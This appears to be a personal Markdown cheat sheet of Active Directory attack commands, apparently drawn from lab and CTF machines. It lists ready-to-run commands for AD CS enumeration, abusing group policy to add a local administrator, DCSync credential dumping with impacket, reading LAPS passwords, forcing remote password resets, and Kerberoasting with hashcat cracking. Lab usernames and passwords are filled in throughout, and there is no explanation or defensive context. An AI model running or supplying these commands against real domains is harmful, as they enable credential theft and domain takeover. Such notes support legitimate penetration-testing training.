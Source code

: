 ### AD CS

```
netexec -M adcs
certipy find -u <user>@<domain> -p 'password' -dc-ip <dcip>
```

### GPO
Alternatively there is also the PowerGPOAbuse (Powershell) version of this script:
```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "DEFAULT DOMAIN POLICY"
gpupdate /force
# check if added to admin
net localgroup administrators
```

### DC Sync

```
impacket-secretsdump hutch.offsec/Administrator@hutch.offsec
```

### Read LAPS Password

```
bloodyAD --host 192.168.153.122 -d hutch.offsec -u fmcsorley -p 'CrabSharkJellyfish192' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

netexec ldap hutch.offsec -d hutch.offsec -u 'fmcsorley' -p 'CrabSharkJellyfish192' -M laps
```

### Change AD User Password Remote (GenericAll/ForceChangePassword)

```
bloodyAD -d administrator.htb -u Olivia -p ichliebedich --dc-ip 10.129.44.101 set password michael "Password123"

net rpc password "SHAWNA_BRAY" "marlboro(1985)" -U "THM"/"TABATHA_BRITT" -S "10.10.61.233" #-S is DC
```

### Target Kerberoast Remote

```
python targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'Password' --dc-ip 10.129.44.101 --request-user ethan

impacket-GetUserSPNs -request -dc-ip <dc-ip> domain/user:password

Rubeus.exe kerberoast

hashcat -m 13100 kerberoastable.hash /usr/share/wordlists/rockyou.txt --force
```
